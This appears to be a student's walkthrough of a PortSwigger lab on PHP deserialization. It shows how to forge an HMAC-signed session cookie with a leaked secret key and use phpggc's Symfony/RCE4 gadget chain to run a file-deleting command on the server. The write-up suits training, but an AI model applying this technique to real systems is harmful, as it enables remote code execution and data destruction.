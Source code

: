 # Exploiting PHP deserialization with a pre-built gadget chain

## This lab has a serialization-based session mechanism that uses a signed cookie. It also uses a common PHP framework. Although you don't have source code access, you can still exploit this lab's [insecure deserialization](https://portswigger.net/web-security/deserialization) using pre-built gadget chains.

## To solve the lab, identify the target framework then use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, work out how to generate a valid signed cookie containing your malicious object. Finally, pass this into the website to delete the `morale.txt` file from Carlos's home directory.

## You can log in to your own account using the following credentials: `wiener:peter`

### HINT

```php
<?php
$object = "OBJECT-GENERATED-BY-PHPGGC";
$secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
?>
```

---

### step 1

login into your account
and send my-account to repater
![screenshot](images/lab6_repeter_cookies.jpg)

### step2

select all cookies it will highligh in inspector
url encoding sig_hmac_shal

![screenshot](images/lab6_url_encoding.jpg)

stpe 3
copy session id to decoder

![screenshot](images/lab6_decode_session_token.jpg)

### step4

remove last 2 words from cookies and send request

![screenshot](images/lab6_smfony_version_info.jpg)

### step5

inspect my-account source page

![screenshot](images/lab6_source_code.jpg)

### step6

send request to repeter and find secret key

![screenshot](images/lab6_secrect_key.jpg)

### step7

download phpgcc from github
execute below ccommand
`./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64`

![screenshot](images/lab6_phpggc.jpg)

### step8

### Hint given in the begining

make a php file
paste generated cookies into object
and paste secret key from above file
pasta and save

![screenshot](images/lab6_php_code_and_execute.jpg)

### step9

paste generated cookies into repeter
and forword request

![screenshot](images/lab6_php_genertated_cookies.jpg)

---

### step 10

check my account will show lab solved

![screenshot](images/lab6_lab_solved.jpg)
